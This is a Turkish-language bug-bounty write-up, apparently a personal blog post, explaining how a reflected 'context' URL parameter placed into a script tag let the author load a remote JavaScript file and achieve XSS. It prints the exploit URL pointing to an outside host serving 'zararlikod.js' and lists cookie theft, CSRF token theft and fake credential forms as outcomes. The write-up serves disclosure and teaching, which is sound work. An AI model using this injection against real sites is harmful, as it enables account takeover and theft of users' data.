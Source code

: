 ```yaml
---
title: 'TR \| Javascript File Inclusion via a Simple Link Injection'
date: 2018-06-12
permalink: /posts/javascript-file-inclusion-via-simple-link-injection-xss/
tags:
  - xss
  - cross site scripting
  - javascript
  - file inclusion
  - link injection
  - hack
  - bugbounty
  - account takeover
  - write-up
  - poc
excerpt: 'Javascript File Inclusion (XSS) via a Simple Link Injection'
---
```


Merhaba arkadaşlar, ben Samet ŞAHİN.

HackerOne (https://hackerone.com/) üzerindeki bir gizli (private) programa **Recognize** yaparken HTTP servisini kullanan bir IP adresi buldum. Bulduğum IP adresine girince direkt olarak bir index sayfasına yönlendiriyordu. Bu index sayfasının kaynak kodlarını (CTRL-U) okurken GET yöntemiyle değer alan bir `<form>` etiketi gördüm ve içerdiği `<input>` etiketlerinden "context" parametresinden değer aldığını fark ettim.  

<img src="/images/LinkInjectionBlogPost.PNG">  

Sıradan bir XSS araştırmasında tüm girdilere (input) XSS saldırı kodları (payload) girmeyi elbette deneyebilirsiniz. Evet XSS böyle de bulunur AMA kaynak kodunu okumayıp, fonksiyonların nasıl çalıştığını ve ne işe yaradığını anlamadan **hacking** denediğiniz anda otomatize araçlardan pek de bir farkınız kalmayacaktır. Fonksiyonların nasıl çalıştığını ve ne işe yaradığını anlamak da Bug Bounty alanında iyi çalışmalar yapan kişilerden aldığım önerilerden biridir. 

Yani buradan bir #bugbountytip çıkarak olursak : "Sitenin ne işe yaradığını sorgula ve nasıl bozarım diye düşün."

Ufak bir trickten sonra açığımıza geri dönelim. Kaynak kodunu okumuş ve "context" isimli bir girdi etiketinin varlığını anlamıştık. Şimdi eğer daha önce çok eski sitelere **Recognize** veya **Hacking** uyguladıysanız sitenin gerçekten çalışıp çalışmadığını kontrol etmelisiniz. Hadi gelin kontrol edelim. Link'in sonunda `?context=sametsahin` yazıyorum ve kaynak koduna nerelere ve nasıl yansıdığını inceliyorum.
> URL : https://127.0.0.1/blablabla/index.html?context=sametsahin  

<img src="/images/LinkInjectionBlogPost2.png">  

Yukarıdaki URL adresini ziyaret ediyoruz ve CTRL-U kombinasyonuyla kaynak koduna giriyoruz. Ardından da CTRL-F ile "sametsahin" değerini aratıyoruz. Gördüğümüz kadarıyla "sametsahin" değeri tam 63 farklı yerde ve farklı şekillerde yansımış. Birazdan bu farklı yansıma şekillerinden bir tanesini kullanarak "Medium 6.3" değerinde bir Cross Site Scripting (XSS) açığı elde edeceğiz. 

Yukarıdaki resimde HTML ve JavaScript için hayati önem arz eden `<script>` etiketine "sametsahin" değerinin basıldığını ve sonuna da /javascript.js dosyasının otomatik olarak eklendiğini görüyoruz. Bu ne anlama geliyor ? Nasıl bozarım ?

> Bu, websitesinin "context" parametresinden aldığı değeri direkt olarak `<script>` etiketinin başına eklediğini ve değerin hemen sonuna da javascript.js dosyasını alarak çalıştığını anlıyoruz.  


> Eğer benden aldığı değeri direkt olarak `<script>` etiketinin içine yerleştiriyor ise ben bu değeri bir kontrolümdeki site adresiyle değiştirip o sitedeki /javascript.js dosyasının içeriğini zararlı kodlar (payload) ile doldurarak XSS açığına erişebilirim.

Bu durumda XSS açığına sebep olan URL adresimiz şu şekilde gözükecektir.
> URL : https://127.0.0.1/blablabla/index.html?context=https://sametsahin.net/zararlikod.js?  

<img src="/images/LinkInjectionBlogPost3.png">  


Ve URL adresine kullanıcıya tıklattırdığımda kullanıcı tarayıcısında zararlı kodumuz (XSS Payloadımız) çalışacaktır.  

<img src="/images/LinkInjectionBlogPost4.png">  



**Peki neler yaptık ?**  
1 -> Recognize ile bir HTTP uygulaması ve bir klasöre eriştik.  
2 -> Eriştiğimiz klasördeki index dosyasının kaynak kodunu okuduk.  
3 -> Kaynak kodunu okurken "context" isimli bir parametre olduğunug gördük.  
4 -> "Context" parametresinin nerelere ve nasıl yansıdığını tespit ettik.  
5 -> Kendimize bazı sorular sorduk.  
6 -> Kontrolümüzdeki bir websitesiyle değiştirdik ve "context" parametresine yazdık.  
7 -> Basit bir Link Injection'dan yola çıkarak en iyisinden bir Cross Site Scripting açığı elde ettik.  


**Peki bu Cross Site Scripting ile neler yapılabilirdi ?**  
1 -> Kullanıcı Cookie'leri çalınıp kullanıcı hesabına erişilebilirdik.  
2 -> Kullanıcıyı zararlı websitelerine yönlendirebilirdik.  
3- > CSRF Korumalarını bypass edebilir veya CSRF Tokenlerini çalabilirdik.  
4 -> Websitesinde sahte formlar oluşturup Email, Telefon, Adres, Kimlik ve Parola gibi hassas verileri çalabilirdik.  
....  



Normal bir XSS açığında saldırı senaryosu geniştir ama bu tür JavaScript dosyası dahil edilebilen tür XSS açıklarında zararlı kodunuzu dilediğiniz kadar uzun yazabildiğiniz için oldukça tehlikelidir. 

Ve tüm bu işlemlerin ardından ortaya çıkardığım orijinal bir #BugBountyTip : 
> **Even a Simple Link Injection can be very harmful. Depends on where it is.**


Samet ŞAHİN
